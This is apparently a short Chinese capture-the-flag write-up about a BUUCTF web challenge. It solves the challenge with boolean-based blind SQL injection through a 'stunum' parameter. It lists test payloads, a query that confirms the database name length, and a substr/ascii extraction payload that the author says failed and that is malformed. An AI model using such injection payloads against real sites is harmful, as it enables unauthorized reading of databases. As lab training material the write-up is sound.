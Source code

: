 # [逻辑盲注]颜值成绩查询

注入题,先尝试输入一些payload看看注入点在哪

```
http://22ad9de1-c8df-47c0-8c13-822750f017cf.node4.buuoj.cn:81/?stunum=2#
```

<img src="/images/buuctf-web2/image-20221025123129925.png" alt="image-20221025123129925" style="zoom:67%;" />



存在逻辑注入:

```
(1^1)
```

![image-20221025123522202](/images/buuctf-web2/image-20221025123522202.png)

```
(3&&2)
```

![image-20221025123727768](/images/buuctf-web2/image-20221025123727768.png)

数据库名长度

```
(1&&(length(database())=4))   ---student number not exists.
(1&&(length(database())=3))   ---Hi admin, your score is: 100
```

后面使用上面的方法就爆不出数据库名了,不知道为什么

```
(1&&ascii((substr(database(),1,1))=ord(c))))
```
